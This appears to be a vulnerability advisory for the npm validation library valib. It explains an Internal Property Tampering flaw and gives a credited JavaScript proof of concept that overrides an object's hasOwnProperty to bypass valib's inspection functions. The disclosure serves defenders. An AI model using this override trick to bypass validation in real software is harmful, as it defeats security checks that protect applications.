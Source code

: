 [valib](https://www.npmjs.com/package/valib) is a standalone javascript library tailored for validation.


Affected versions of this package are vulnerable to Internal Property Tampering. A maliciously crafted JavaScript object can bypass several inspection functions provided by valib. Valib uses a built-in function  `(hasOwnProperty)`  from the unsafe user-input to examine an object. It is possible for a crafted payload to overwrite this function to manipulate the inspection results to bypass security checks.
## Proof of Concept (Credit: Feng Xiao - xiaofen9)
```
"use strict";
var valib = require('valib');
var json = {
	 key1: null,
	 key2: { url: "http://example.com" },
	 key3: "17850",
	 key4: "OK",
	 key5: "2012-10-06T04:13:00+00:00",
	 key6: [1, 2, 3],
	 key7: "Yes"
};
json.hasOwnProperty = function(val) {return false;}
function test(userJson){
	 console.log(valib.Object.isEmpty(userJson));
	 console.log(valib.Object.countKeys(userJson));
	 console.log(valib.Object.hasValue(userJson, "Yes"));
}
test(json);
```